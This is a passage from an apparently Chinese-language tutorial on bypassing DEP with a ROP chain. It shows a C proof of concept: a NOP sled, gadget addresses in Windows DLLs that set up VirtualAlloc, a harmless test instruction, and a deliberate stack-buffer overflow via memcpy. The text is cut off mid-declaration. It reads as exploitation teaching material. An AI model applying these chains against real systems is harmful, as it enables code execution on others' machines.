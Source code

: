 ### 测试1：

填入上述ROP链，接着加上测试的命令：

```
PUSH 1;
POP ECX;
```

对应机器码为0x9059016A

组合后的POC如下：

```
unsigned int shellcode[]=
{     
      0x90909090,0x90909090,0x90909090,0x90909090,
      0x90909090,0x90909090,0x90909090,0x90909090,
    0x90909090,0x90909090,0x90909090,0x90909090,
    0x90909090,
      0x693a2e92,  // POP ECX // RETN [MSVCR110.dll] 
      0x693bd19c,  // ptr to &VirtualAlloc() [IAT MSVCR110.dll]
      0x69353486,  // MOV EAX,DWORD PTR DS:[ECX] // RETN [MSVCR110.dll] 
      0x779f9dca,  // XCHG EAX,ESI // RETN [ntdll.dll] 
      0x69370742,  // POP EBP // RETN [MSVCR110.dll] 
      0x75dac58d,  // & call esp [KERNELBASE.dll]
      0x6932ea52,  // POP EAX // RETN [MSVCR110.dll] 
      0xffffffff,  // Value to negate, will become 0x00000001
      0x69353746,  // NEG EAX // RETN [MSVCR110.dll] 
      0x75da655d,  // XCHG EAX,EBX // ADD BH,CH // DEC ECX // RETN 0x10 [KERNELBASE.dll] 
      0x77216829,  // POP EAX // RETN [kernel32.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0xa2800fc0,  // put delta into eax (-> put 0x00001000 into edx)
      0x7721502a,  // ADD EAX,5D800040 // RETN 0x04 [kernel32.dll] 
      0x771abd3a,  // XCHG EAX,EDX // RETN [kernel32.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x69329bb1,  // POP EAX // RETN [MSVCR110.dll] 
      0xffffffc0,  // Value to negate, will become 0x00000040
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x771d0946,  // XCHG EAX,ECX // RETN [kernel32.dll] 
      0x6935e68f,  // POP EDI // RETN [MSVCR110.dll] 
      0x69354486,  // RETN (ROP NOP) [MSVCR110.dll]
      0x693a7031,  // POP EAX // RETN [MSVCR110.dll] 
      0x90909090,  // nop
      0x69390267,  // PUSHAD // RETN [MSVCR110.dll] 
      
      0x9059016A,  //PUSH 1  // POP ECX 
      0x90909090,
      0x90909090,
      0x90909090,
      0x90909090
};
void test()
{
  char buffer[48];  
  printf("3\n");
  memcpy(buffer,shellcode,sizeof(shellcode));
}
int main()
{
  printf("1\n");
  test();
  char Buf[] = 
```